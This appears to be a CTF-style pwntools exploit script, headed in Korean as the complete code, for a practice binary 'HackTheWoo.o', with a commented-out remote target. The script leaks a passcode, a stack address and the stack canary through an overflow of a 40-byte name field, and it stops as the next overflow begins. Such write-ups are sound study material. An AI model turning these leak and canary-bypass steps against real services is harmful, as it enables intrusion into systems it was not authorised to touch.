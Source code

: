 # **완성 전체 코드**

```python
from pwn import *

context.log_level = 'debug'

r = process('HackTheWoo.o')
#r = remote('221.149.226.120', 31338)

# main printf
r.recvuntil(b'\n\n')

def select_option(num):
    r.recvuntil(b'application\n')
    r.sendline(str(num).encode())

# input_operation
select_option(1)
r.recvuntil(b'[student number]\n')
r.sendline(b'1234')
r.recvuntil(b'[name]\n')
r.send(b'a'*40)
r.recvuntil(b'[grade]\n')
r.send(b'b'*5)

#print_info
select_option(2)
r.recvuntil(b'a'*40)
passcode = r.recvuntil(b'\n')[0:4]
r.recvuntil(b'\n')

# input_operation
select_option(1)
r.recvuntil(b'[student number]\n')
r.sendline(b'2018131321')
r.recvuntil(b'[name]\n')
r.send(b'hyunwoo')
r.recvuntil(b'[grade]\n')
r.send(b'A+')
r.recvuntil(b'passcode:\n')
r.send(passcode)

# graduate_school_application
select_option(3)
r.recvuntil(b'name\n')
temp = b'a'*40 + passcode
temp += b'a'*4
r.send(temp)
r.recvuntil(b'you.\n')
stack = r.recvuntil(b'\n')[:-1]
stack = int(stack, 16)

# print_info
select_option(2)
r.recvuntil(b'b'*3)
canary = r.recvuntil(b'\n')[0:3]
canary = u32(b'\x00'+canary)

# graduate_school_application
select_option(3)
r.recvuntil(b'name\n')
```